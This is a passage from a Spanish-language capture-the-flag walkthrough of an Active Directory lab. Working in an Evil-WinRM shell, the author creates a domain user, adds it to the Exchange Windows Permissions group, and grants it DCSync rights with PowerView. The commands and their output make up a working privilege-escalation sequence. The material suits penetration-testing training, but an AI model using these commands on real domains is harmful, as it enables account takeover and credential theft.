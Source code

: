 Bien, antes de seguir las instrucciones de **BloodHound**, vamos a crear un usuario propio y lo vamos a agregar al grupo **EXCHANGE WINDOWS PERMISSIONS**:
```batch
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\BHbrsk> net user BrskWngs BrskWngs123$! /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\BHbrsk> net group "Exchange Windows Permissions" BrskWngs /add
The command completed successfully.
```
Si no tuviéramos los privilegios necesarios, esta acción no la habríamos podido realizar.

Comprobemos la creación de nuestro usuario:
```batch
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\BHbrsk> net user BrskWngs
User name                    BrskWngs
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/10/2024 1:15:49 PM
Password expires             Never
Password changeable          10/11/2024 1:15:49 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Exchange Windows Perm*Domain Users
The command completed successfully.
```

Ahora sí, sigamos las instrucciones que nos indicaron:
```batch
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\BHbrsk> $SecPassword = ConvertTo-SecureString 'BrskWngs123$!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\BHbrsk> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\BrskWngs', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\BHbrsk> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity BrskWngs -Rights DCSync
```
La última instrucción es la que necesita **PowerView.ps1** para ejecutarse. Además, indicamos el dominio de una forma más específica y le indicamos que usará a nuestro usuario que creamos como primera identidad.
